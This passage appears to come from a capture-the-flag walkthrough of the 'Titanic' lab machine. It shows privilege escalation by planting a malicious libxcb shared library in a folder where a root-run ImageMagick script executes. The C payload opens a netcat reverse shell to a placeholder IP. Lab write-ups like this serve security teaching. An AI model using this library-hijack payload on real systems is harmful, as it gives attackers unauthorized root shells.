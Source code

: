 + We can execute file .sh without sudo. Checking the code of file .sh:

```bash
$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

+ We can manipulate the path `/opt/app/static/assets/images` to spawn the reverse shell.
+ Firstly, we access `/opt/app/static/assets/images` and create the file `libxcb.c`:

```C
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void init(){

system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 4444 >/tmp/f");
exit(0);
}
```
+ We can check the shared libraries are used by the program:
```bash
developer@titanic:~$ ldd /usr/sbin/apache2
	linux-vdso.so.1 (0x00007ffcbdb5d000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f81410ce000)
	libaprutil-1.so.0 => /lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007f81410a0000)
	libapr-1.so.0 => /lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007f8141063000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8140e3a000)
	libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f8140e00000)
	libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007f8140dcd000)
	libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007f8140dc4000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f814120a000)
developer@titanic:~$ ls -l /usr/lib/x86_64-linux-gnu/libxcb.so.1
lrwxrwxrwx 1 root root 15 Mar 24  2022 /usr/lib/x86_64-linux-gnu/libxcb.so.1 -> libxcb.so.1.1.0
```

+ Compile the code into a shared object at the location `/opt/app/static/assets/images` where the file `identify_images.sh` execute.

![alt text](/Machine_Labs/Titanic/Images/image-13.png)
